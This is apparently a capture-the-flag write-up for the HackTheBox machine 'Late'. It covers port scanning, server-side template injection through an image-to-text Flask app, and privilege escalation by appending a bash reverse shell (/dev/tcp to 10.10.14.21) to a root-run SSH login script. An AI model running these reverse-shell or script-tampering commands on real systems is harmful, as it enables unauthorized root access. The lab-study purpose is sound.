# Late - HackTheBox WriteUp



## 1. Enumeration

### Nmap initial scan

```
┌──(root💀kali)-[~/htb/machines/late]
└─# nmap -sC -sV -oN nmap_init 10.10.11.156
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-01 10:33 EDT
Nmap scan report for 10.10.11.156
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web Enumeration

Open browser and goto http://10.10.11.156. While browsing a hyperlink can be found.



This hyperlink redirects to images.late.htb. So add late.htb and images.late.htb to hosts file.

Moving to images.late.htb, there is an image scanner which reads text inside the image and convert it into text. And this is build using flask.



It is vulnerable to SSTI template injection.


Create image containing an SSTI payload in text format.



Upload and scan this image in the website.

This payload will be executed in the server and it output backs the result of "id" command which is executed.




To make it simple, create an index.html file and add bash reverse shell one liner to it.

```
bash -i >& /dev/tcp/10.10.14.21/4242 0>&1
```

Turn on python server on port 80 to retrieve index.html and turn on netcat listener on port 4242 to get reverse shell.

Now upload image with the following SSTI payload.



Payload got executed in the server and thus gets reverse shell.

```
svc_acc@late:~/app$ id
id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

svc_acc@late:~/app$ whoami
whoami
svc_acc

```

Stabilise the shell using python.



An unusual script (ssh-alert.sh) is on /usr/bin/sbin/ directory. What this script does is, it sends a mail to the user who login using ssh. So this script executes with root privileges when a user login using ssh into the machine. 




While checking the attribute of the script, user can append to this script.



So, a reverse shell command can be appended to gain root access.

```
echo "bash -i >& /dev/tcp/10.10.14.21/9001 0>&1" >> ssh-alert.sh
```

This command to gain root shell will be appended to the script and whenever a user logs in through ssh, the listner will receive a shell with root privileges.


To perform this, copy contents of ssh private key of user svc_acc and set permissions to 600. Turn on netcat listener on port 9001. Login using id_rsa key which is created.






While svc_acc logged in using ssh, ssh-alert.sh script got executed which contains the reverse shell command. 

This gives a root shell through the netcat listener and the root flag can be found at root user's home directory.
